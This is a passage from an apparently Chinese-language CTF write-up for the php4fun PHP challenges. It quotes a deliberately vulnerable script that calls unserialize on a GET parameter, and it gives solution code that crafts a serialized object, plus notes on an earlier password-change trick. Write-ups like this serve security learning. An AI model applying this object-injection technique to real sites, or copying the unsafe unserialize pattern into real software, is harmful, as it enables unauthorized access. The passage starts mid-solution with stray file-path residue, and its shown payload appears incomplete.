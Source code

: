 (1) http://www.80vul.com/webzine_0x06/PSTZine_0x06_0x03.txt (站上默认显示的密码就是个提示...估计是哪位大虾顺手改的) (2) $userInfo['pass'] = $newPass; //这句，改成1

### 所以：

(1) 修改jimbo18714密码为8 (2) 再次修改密码，提交时userInfo为8的序列化,newPass为1

challenge 6
-----------

* * *

php code：

```
#GOAL: get the secret;

class just4fun {
    var $enter;
    var $secret;
}

if (isset($_GET['pass'])) {
    $pass = $_GET['pass'];

    if(get_magic_quotes_gpc()){
        $pass=stripslashes($pass);
    }

    $o = unserialize($pass);

    if ($o) {
        $o->secret = "?????????????????????????????";
        if ($o->secret === $o->enter)
            echo "Congratulation! Here is my secret: ".$o->secret;
        else 
            echo "Oh no... You can't fool me";
    }
    else echo "are you trolling?";
}

```

攻略：
---

serialize一个just4fun的对象，序列化之前先赋值给$o->enter (在本地执行是成功的，php4fun.sinaapp.com不行，代码改了？)

所以：

(1) 生成序列化的对象

```
class just4fun {
    var $enter;
    var $secret;
}

$a=new just4fun();
$a->enter='?????????????????????????????';
echo urlencode(serialize($a));

```
